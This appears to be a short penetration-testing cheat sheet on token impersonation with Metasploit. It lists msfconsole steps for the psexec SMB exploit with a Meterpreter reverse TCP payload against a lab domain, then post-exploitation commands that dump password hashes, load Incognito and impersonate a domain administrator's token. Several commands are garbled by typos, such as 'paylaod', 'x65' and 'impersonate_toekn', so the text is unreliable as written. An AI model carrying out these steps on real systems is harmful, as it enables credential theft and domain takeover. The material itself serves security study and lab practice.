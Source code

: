 Token Imperonstation with Incognito on Metasploit
*****************************************************

Metasploit pre-shell
#########################

.. code-block:: console

        msfconsole
        use exploit/windows/smb/psexec
        set rhosts 192.168.57.141
        set rhost victimIP
        set smbdomain marvel.local
        set subdomain domain
        set smbuser fcastle
        set smbuser username
        set target 2
        set paylaod windows/x65/meterpreter/reverse/tcp
        set lhost wlan0
        run

Metasploit shell
###################

.. code-block:: console

        hashdump -> dumps machine hashes
        getuid -> see which user you are
        sysinfo -> get system information
        load incognito
        list_tokens -u
        impersonate_token marvel\\administrator
        impersonate_toekn domain\\Administrator
        shell
